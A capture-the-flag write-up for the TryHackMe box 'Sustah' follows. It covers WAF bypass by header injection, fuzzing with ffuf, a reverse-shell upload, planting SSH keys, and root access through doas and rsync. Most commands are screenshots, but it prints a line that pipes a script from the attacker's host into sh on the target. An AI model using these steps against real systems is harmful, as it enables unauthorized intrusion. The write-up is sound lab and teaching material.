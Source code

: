 This is a write up for the box SUSTAH on https://tryhackme.com/

First i add sustah to my /etc/hosts:

sudo vim /etc/hosts 

[![https://imgur.com/9VQSlLv.png](https://imgur.com/9VQSlLv.png)](https://imgur.com/9VQSlLv.png)

## Enumeration

First we start with a quick nmap scan.

[![https://imgur.com/dFiZBh9.png](https://imgur.com/dFiZBh9.png)](https://imgur.com/dFiZBh9.png)

Our gobuster doesnt give us any endpoints so lets look further.

There we can see the http port 8085 lets check it out.

[![https://imgur.com/nVxVCVL.png](https://imgur.com/nVxVCVL.png)](https://imgur.com/nVxVCVL.png)

Lets go for another gobuster on this port..

[![https://imgur.com/NJ6qyr5.png](https://imgur.com/NJ6qyr5.png)](https://imgur.com/NJ6qyr5.png)

So far we are pretty clueless.

Lets take a closer look at the inputfield.

We could try to bruteforce the right number with a method called fuzzing.
For that we create a wordlist of a specific range of numbers and lets it try each of them:

The tool we are going to use for that is called ffuf:

https://github.com/ffuf/ffuf

If we recall the description of the box:

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"
We probably also have to bypass a WAF.

Lets look at header injection by portswiggger:
https://portswigger.net/web-security/host-header/exploiting

By injecting the header in this way we can make the server belive the requests are coming from itself and therefor are trustworthy.

[![https://imgur.com/UbV0Trm.png](https://imgur.com/UbV0Trm.png)](https://imgur.com/UbV0Trm.png)

Now we can create our wordlist, we could use a onlinetool but we should try to write as much aspossible on our own :)

[![https://imgur.com/wnPqXyh.png](https://imgur.com/wnPqXyh.png)](https://imgur.com/wnPqXyh.png)

Now we can start our fuzzer tool:

We have to specify the wordlist we created with our little script, the headers to bypass the WAF, what we want to FUZZ, and the url.
I also added -fs which is a filter for the size 1004 because that is the normal response we would get if we have the wrong number.

[![https://imgur.com/4dDk7Ec.png](https://imgur.com/4dDk7Ec.png)](https://imgur.com/4dDk7Ec.png)

After inserting the right number we get a PATH.
After playing arround i found a adming loginpage with default credentials.
There we can upload files. 
Lets try to upload a reverseshell and run a nc listener.

[![https://imgur.com/pm551w8.png](https://imgur.com/pm551w8.png)](https://imgur.com/pm551w8.png)

Seems to work now we activate it by finding its location and clicking on it. ( or curl it )

[![https://imgur.com/iNkmr2K.png](https://imgur.com/iNkmr2K.png)](https://imgur.com/iNkmr2K.png)

Yes, it worked ! We are in :)

[![https://imgur.com/9NrVN9h.png](https://imgur.com/9NrVN9h.png)](https://imgur.com/9NrVN9h.png)

After searching for a good amount of time i find a backupfile of /etc/passwd with the password of kiran written in plaintext:

[![https://imgur.com/BZ4Iov1.png](https://imgur.com/BZ4Iov1.png)](https://imgur.com/BZ4Iov1.png)

First thing to do after: 
su kiran

is to create ssh keys

mkdir .ssh
ssh-keygen
touch authorized_keys
cat id_rsa.pub > authorized_keys

Now we can ssh into kiran with the -i parameter and the id_rsa key.


## Privescalation

After not finding any obvious vulnerabilities i decided to run linpeas.
Set up a simple python webserver on your host:

python3 -m http.server 1337

( you have to download linpeas first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS )

then on the target in the /tmp directory:

curl http://youriphere:1337/linpeas.sh | sh

This will execute linpeas automatically.

The first thing that catches my eye is this doas.conf file which says we can run rsync as root:

[![https://imgur.com/JwnI0fg.png](https://imgur.com/JwnI0fg.png)](https://imgur.com/JwnI0fg.png)

So i tried ( i went to GTFOBINS to find privesc for rsync ) :   -> https://gtfobins.github.io/gtfobins/rsync/

[![https://imgur.com/sukmjzY.png](https://imgur.com/sukmjzY.png)](https://imgur.com/sukmjzY.png)

We can't run sudo since we don't have the sudo password. 

But what is this doas anyway? 

It seems to be a replacement for sudo where we can run commands as another user!

[![https://imgur.com/AQGteuV.png](https://imgur.com/AQGteuV.png)](https://imgur.com/AQGteuV.png)

So lets try to run rsync as user root since we dont need a password!

[![https://imgur.com/R4uinio.png](https://imgur.com/R4uinio.png)](https://imgur.com/R4uinio.png)

<iframe src="https://giphy.com/embed/vmon3eAOp1WfK" width="480" height="357" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/celebration-excited-loki-vmon3eAOp1WfK">via GIPHY</a></p>

![Celebration](https://media.giphy.com/media/vmon3eAOp1WfK/giphy.gif)

![Alt Text](https://media.giphy.com/media/vFKqnCdLPNOKc/giphy.gif)
